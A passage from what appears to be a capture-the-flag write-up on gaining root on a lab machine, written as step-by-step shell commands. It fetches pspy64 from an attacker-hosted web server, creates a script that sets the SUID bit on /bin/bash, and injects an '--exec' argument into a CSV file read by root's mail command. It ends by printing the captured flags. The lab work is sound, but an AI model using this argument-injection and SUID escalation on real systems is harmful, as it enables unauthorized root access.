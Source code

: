 - If you hadn't noticed the importance of the `www-data` at this point I will explain.
```bash
ls -ld /var/www/private

dr-xr-x--- 2 christine www-data 4096 Oct  6 01:35 /var/www/private
```

- Now we can access this `private` directory and write content to the `leave_requests.csv` file and determine what follows.
- Let's get the proper software on the victim machine so we can monitor active processes.
- If you haven't already download `pspy64`.
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

- Spin up a server to transfer it over. I'll use `python`.
- On `Host`
```bash
python -m http.server
```
- On `Victim`
```bash
wget http://10.10.16.34:8000/pspy64
chmod +x pspy64
./pspy64
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230122011419.png)

- We see `root` is utilizing the `mail` command.
- Similar to before we can also use `mail` to execute a script with the `--exec` flag.
- Find more about it here:
	- [[https://gtfobins.github.io/gtfobins/mail/]]
- Let's create another script in the `/tmp` directory which allows us to elevate our privileges by adding `SUID` bit to the `/bin/bash` binary.
-  I'll name my file `theway.sh` in the `/tmp` directory.
- `/tmp/theway.sh`
```bash
#!/bin/bash
chmod +s /bin/bash
```
- Make sure it is executable.
```bash
chmod +x /tmp/theway.sh
```
- As `www-data` run in the `/var/www/private` directory run:
```bash
echo '" --exec="\!/tmp/theway.sh"' >> leav*
```
- Then elevate privileges with:
```bash
/bin/bash -p
```
- The `-p` switch will execute `/bin/bash` in `privileged` mode.

- There you have it!
```bash
cat /home/bean/user.txt 

04a15632f8bed02d5e4f27ea17c870fa

cat /root/root.txt 

59cd607b9a118ca92314b57e3167fe66
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230122012135.png)

#hacking
